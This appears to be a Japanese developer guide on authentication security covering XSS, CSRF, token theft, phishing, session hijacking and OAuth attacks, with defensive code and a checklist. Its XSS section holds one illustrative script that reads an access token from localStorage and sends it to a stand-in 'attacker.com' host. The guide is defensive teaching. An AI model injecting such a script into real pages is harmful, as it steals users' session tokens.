


# セキュリティ対策とベストプラクティス

> **🛡️ 認証・認可 > セキュリティ対策**
> 本ドキュメントでは、認証実装における脅威と対策、2025年のベストプラクティスをまとめています。XSS、CSRF、フィッシング等の典型的な攻撃手法と、それらに対する具体的な対策を解説します。

## 前提知識

- **[概要](auth-basics.md)** - 認証・認可の基礎
- **[OAuth 2.0 / OIDC](oauth-oidc-basics.md)** - プロトコルの詳細

## 関連ドキュメント

- 実装: **[実装ガイド](implementation-guide.md)** - セキュアな実装方法
- 詳細: **[包括的リファレンス](authentication-guide.md)** - 最新セキュリティ技術

---

## 目次

1. [典型的な脅威と対策](#典型的な脅威と対策)
2. [トークン管理のベストプラクティス](#トークン管理のベストプラクティス)
3. [Cookie のセキュリティ設定](#cookie-のセキュリティ設定)
4. [最新セキュリティ技術](#最新セキュリティ技術)
5. [2025年の重要トピック](#2025年の重要トピック)

---

## 典型的な脅威と対策

### 1. XSS(Cross-Site Scripting)

#### XSSの攻撃内容

悪意あるJavaScriptを注入し、トークンやCookieを盗む。

```html
<!-- 攻撃例 -->
<script>
  // LocalStorageからトークンを盗む
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('accessToken')
  });
</script>
```

#### XSSの対策

| 対策 | 説明 | 優先度 |
|------|------|--------|
| **HttpOnly Cookie** | JavaScriptからアクセス不可 | 🔴 必須 |
| **CSP** | Content Security Policy設定 | 🔴 必須 |
| **入力サニタイズ** | ユーザー入力のエスケープ | 🔴 必須 |
| **Trusted Types** | DOM操作の型チェック | 🟡 推奨 |
| **トークンはメモリのみ** | LocalStorage禁止 | 🔴 必須 |

**実装例**:

```javascript
// ❌ 悪い例
localStorage.setItem('token', accessToken);

// ✅ 良い例1: HttpOnly Cookie(サーバー側設定)
res.cookie('token', accessToken, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'
});

// ✅ 良い例2: メモリのみ(React State等)
const [token, setToken] = useState(null);
```

**CSP設定例**:

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-random123';
  object-src 'none'
```

---

### 2. CSRF(Cross-Site Request Forgery)

#### CSRFの攻撃内容

ユーザーの意図しないリクエストを送信させる。

```html
<!-- 攻撃者のサイト -->

<!-- ユーザーがログイン中なら、Cookieが自動送信される -->
```

#### CSRFの対策

| 対策 | 説明 | 優先度 |
|------|------|--------|
| **SameSite Cookie** | クロスサイトリクエストで送信しない | 🔴 必須 |
| **CSRFトークン** | リクエストごとにトークン検証 | 🔴 必須 |
| **state パラメータ** | OAuth時の状態検証 | 🔴 必須 |
| **Origin/Referer検証** | リクエスト元の確認 | 🟡 推奨 |

**実装例**:

```javascript
// SameSite Cookie
Set-Cookie: session_id=xxx; SameSite=Strict; Secure; HttpOnly

// CSRFトークン
<meta name="csrf-token" content="{{ csrf_token }}">

fetch('/api/delete', {
  method: 'DELETE',
  headers: {
    'X-CSRF-Token': document.querySelector('meta[name="csrf-token"]').content
  }
});
```

---

### 3. トークン窃取・リプレイ攻撃

#### トークン窃取・リプレイの攻撃内容

トークンを盗んで不正利用、または過去のトークンを再利用。

#### トークン窃取・リプレイの対策

| 対策 | 説明 | 優先度 |
|------|------|--------|
| **短寿命化** | アクセストークン15分〜1時間 | 🔴 必須 |
| **HTTPS必須** | 通信の暗号化 | 🔴 必須 |
| **DPoP** | トークンバインディング | 🟡 推奨 |
| **mTLS** | クライアント証明書認証 | 🟡 高セキュリティ時 |
| **nonce** | リプレイ攻撃防止 | 🔴 OIDC必須 |

**トークン有効期限(2025年推奨)**:

```yaml
アクセストークン: 15分〜1時間
IDトークン: 1時間
リフレッシュトークン: 7〜30日
```

---

### 4. フィッシング攻撃

#### フィッシングの攻撃内容

偽のログイン画面でパスワードを盗む。

#### フィッシングの対策

| 対策 | 説明 | 優先度 |
|------|------|--------|
| **WebAuthn/パスキー** | ドメインバインディングで偽サイト無効 | 🔴 最推奨 |
| **TOTP** | 時間ベースワンタイムパスワード | 🟡 推奨 |
| **リスクベース認証** | 異常なアクセスパターン検知 | 🟡 推奨 |
| **証明書の確認** | SSL/TLS証明書の正当性 | 🔴 必須 |

**パスキーの利点**:

```javascript
// パスキーはドメインに紐づく
// 偽サイト(phishing.com)では使用不可
const credential = await navigator.credentials.get({
  publicKey: {
    challenge: challenge,
    rpId: "example.com"  // 正規ドメインのみ有効
  }
});
```

---

### 5. セッション固定化・乗っ取り

#### セッション攻撃の内容

他人のセッションを乗っ取る。

#### セッション攻撃の対策

| 対策 | 説明 | 優先度 |
|------|------|--------|
| **ログイン時にID再生成** | セッション固定化対策 | 🔴 必須 |
| **デバイス/IP検証** | 異常なアクセス検知 | 🟡 推奨 |
| **アクティブセッション管理** | 複数セッションの可視化 | 🟡 推奨 |
| **強制ログアウト** | 全デバイスからログアウト機能 | 🟡 推奨 |

**実装例**:

```javascript
// ログイン成功時、セッションIDを再生成
app.post('/login', (req, res) => {
  // 認証処理...

  req.session.regenerate((err) => {
    if (err) return res.status(500).send('Error');

    req.session.userId = user.id;
    res.send('Login successful');
  });
});
```

---

### 6. OAuth 特有の攻撃

#### 認可コード横取り攻撃

**対策**: PKCE必須

#### ミックスアップ攻撃

**対策**: issuer検証、JARM

#### オープンリダイレクタ

**対策**: リダイレクトURI完全一致

---

## トークン管理のベストプラクティス

### トークン保存場所の選択(2025年版)

| 保存場所 | XSS耐性 | CSRF耐性 | 永続性 | 推奨度 | 用途 |
|---------|---------|----------|--------|--------|------|
| **BFF サーバー側** | ✅ 高 | ✅ 高 | ✅ あり | 🌟 最推奨 | すべて |
| **HttpOnly Cookie** | ✅ 高 | ⚠️ 要対策 | ✅ あり | ✅ 推奨 | リフレッシュトークン |
| **メモリ(State)** | ✅ 高 | ✅ 高 | ❌ なし | ✅ 推奨 | アクセストークン |
| SessionStorage | ❌ 低 | ✅ 高 | ❌ なし | ⚠️ 条件付き | 一時的なデータ |
| LocalStorage | ❌ 低 | ✅ 高 | ✅ あり | ❌ **禁止** | なし |

### リフレッシュトークンローテーション

**使い捨て戦略で、再利用を検知。**

```javascript
// クライアント側
const refreshAccessToken = async (oldRefreshToken) => {
  const res = await fetch('/auth/refresh', {
    method: 'POST',
    body: JSON.stringify({ refreshToken: oldRefreshToken })
  });

  const { accessToken, refreshToken } = await res.json();

  // 新しいリフレッシュトークンで置き換え
  return { accessToken, refreshToken };
};

// サーバー側
app.post('/auth/refresh', (req, res) => {
  const { refreshToken } = req.body;

  // 再利用検知
  if (isTokenAlreadyUsed(refreshToken)) {
    // トークンファミリー全体を無効化
    revokeAllTokensForUser(getUserId(refreshToken));
    return res.status(401).send('Token reuse detected');
  }

  // トークンを使用済みとしてマーク
  markTokenAsUsed(refreshToken);

  // 新しいトークンペアを発行
  const newAccessToken = generateAccessToken();
  const newRefreshToken = generateRefreshToken();

  res.json({
    accessToken: newAccessToken,
    refreshToken: newRefreshToken
  });
});
```

---

## Cookie のセキュリティ設定

### 必須属性(2025年版)

```javascript
// Express.js
res.cookie('session_id', sessionId, {
  httpOnly: true,    // JavaScriptからアクセス不可(XSS対策)
  secure: true,      // HTTPS通信のみ
  sameSite: 'strict', // クロスサイトリクエストで送信しない(CSRF対策)
  maxAge: 3600000,   // 有効期限(1時間)
  path: '/',         // 有効パス
  domain: 'example.com' // ドメイン指定(オプション)
});
```

### SameSite属性の詳細

| 値 | 動作 | 用途 |
|----|----|------|
| **Strict** | クロスサイトリクエストで一切送信しない | 最も安全、ただし外部リンクからのアクセスで再ログイン必要 |
| **Lax** | GET等の安全なメソッドでは送信 | バランスが良い、通常のサイト向け |
| **None** | 常に送信(Secure必須) | サードパーティCookie、埋め込みコンテンツ |

**推奨設定**:

```javascript
// 一般的なWebアプリ
sameSite: 'lax'

// 高セキュリティが必要な場合
sameSite: 'strict'

// 埋め込みコンテンツ(iframe等)
sameSite: 'none'  // ⚠️ サードパーティCookie廃止で将来的に使用不可
```

---

## 最新セキュリティ技術

### 1. DPoP(Demonstrating Proof-of-Possession)

**トークンをクライアントの秘密鍵にバインド。**

```javascript
// 1. クライアントが鍵ペアを生成
const keyPair = await crypto.subtle.generateKey(
  { name: "ECDSA", namedCurve: "P-256" },
  true,
  ["sign", "verify"]
);

// 2. DPoP Proofを生成
const dpopProof = await createDPoPProof({
  method: 'GET',
  url: 'https://api.example.com/users',
  accessToken: accessToken,
  privateKey: keyPair.privateKey
});

// 3. APIリクエスト
fetch('https://api.example.com/users', {
  headers: {
    'Authorization': `DPoP ${accessToken}`,
    'DPoP': dpopProof
  }
});
```

**メリット**:

- ✅ トークンが盗まれても秘密鍵なしでは使用不可
- ✅ 中間者攻撃への耐性

---

### 2. PAR(Pushed Authorization Requests)

**認可リクエストを事前にサーバーへプッシュ。**



**メリット**:

- ✅ URLパラメータ改ざん防止
- ✅ ブラウザ履歴からの情報漏えい防止

---

### 3. FAPI(Financial-grade API)

**金融業界向けの厳格なセキュリティプロファイル。**

要件:

- ✅ PAR必須
- ✅ mTLS または DPoP
- ✅ 短寿命トークン(10分以下推奨)
- ✅ JAR/JARM

---

## 2025年の重要トピック

### サードパーティCookie の段階的廃止

#### 影響

- ❌ 従来のサイレントリフレッシュ(隠しiframe)が使用不可
- ❌ IdPのサードパーティCookie依存SSOが困難

#### サードパーティCookie対策

##### 1. BFFパターン(最推奨)



- ✅ トークンをBFFサーバー側で管理
- ✅ ブラウザとはファーストパーティCookieのみ

##### 2. FedCM(Federated Credential Management)

```javascript
// FedCM API(Chrome本格導入済み)
const credential = await navigator.credentials.get({
  identity: {
    providers: [{
      configURL: "https://idp.example/fedcm.json",
      clientId: "your-client-id"
    }]
  }
});
```

---

### WebAuthn / パスキー の普及

**2025年、パスワードレス認証が主流化。**

#### 登録

```javascript
const credential = await navigator.credentials.create({
  publicKey: {
    challenge: new Uint8Array(32),
    rp: { name: "Example Corp", id: "example.com" },
    user: {
      id: new Uint8Array(16),
      name: "user@example.com",
      displayName: "User Name"
    },
    pubKeyCredParams: [
      { type: "public-key", alg: -7 }  // ES256
    ],
    authenticatorSelection: {
      authenticatorAttachment: "platform",  // デバイス内蔵認証器
      userVerification: "required"
    }
  }
});
```

#### 認証

```javascript
const assertion = await navigator.credentials.get({
  publicKey: {
    challenge: new Uint8Array(32),
    rpId: "example.com"
  }
});
```

**メリット**:

- ✅ フィッシング耐性(ドメインバインディング)
- ✅ パスワード不要
- ✅ 生体認証で便利
- ✅ クロスデバイス同期可能

---

## セキュリティチェックリスト

### フロントエンド(Next.js等)

- [ ] トークンをLocalStorageに保存していない
- [ ] HttpOnly Cookie または BFF でトークン管理
- [ ] CSP(Content Security Policy)設定済み
- [ ] HTTPS強制
- [ ] state/nonce パラメータ使用
- [ ] PKCE有効化
- [ ] 入力値のサニタイズ・エスケープ
- [ ] 依存関係の定期更新(npm audit)

### バックエンド(Spring Boot等)

- [ ] JWT署名検証
- [ ] issuer/audience/exp 検証
- [ ] CORS適切に設定(ワイルドカード禁止)
- [ ] セキュリティヘッダー設定
- [ ] APIレート制限
- [ ] 入力値バリデーション
- [ ] SQLインジェクション対策
- [ ] ログ・監査証跡

### IdP(AWS Cognito等)

- [ ] 強力なパスワードポリシー(12文字以上)
- [ ] MFA有効化
- [ ] Advanced Security Features有効
- [ ] リダイレクトURI厳格一致
- [ ] トークン有効期限適切
- [ ] リフレッシュトークンローテーション

### 運用

- [ ] 異常ログイン検知
- [ ] アクティブセッション管理
- [ ] 強制ログアウト機能
- [ ] セキュリティインシデント対応計画
- [ ] 定期的な脆弱性診断
- [ ] ペネトレーションテスト

---

## まとめ

### 2025年のセキュリティ三原則

1. **トークンをブラウザに露出させない**(BFF/HttpOnly Cookie)
2. **短寿命化 + ローテーション**(15分〜1時間 + 使い捨て)
3. **パスキー優先**(フィッシング耐性、パスワードレス)

### 次のステップ

セキュリティの基礎を理解したら、実装ガイドに進んでください:

**[実装ガイド](implementation-guide.md)** - Next.js + Spring Boot + Cognito のセキュアな実装方法

---

**参考資料**:

- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [OAuth 2.0 Security Best Current Practice](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics)
- [NIST 800-63B](https://pages.nist.gov/800-63-3/sp800-63b.html)

**最終更新**: 2025年10月15日
**対象読者**: 認証機能の実装を学ぶ開発者(初級〜中級)
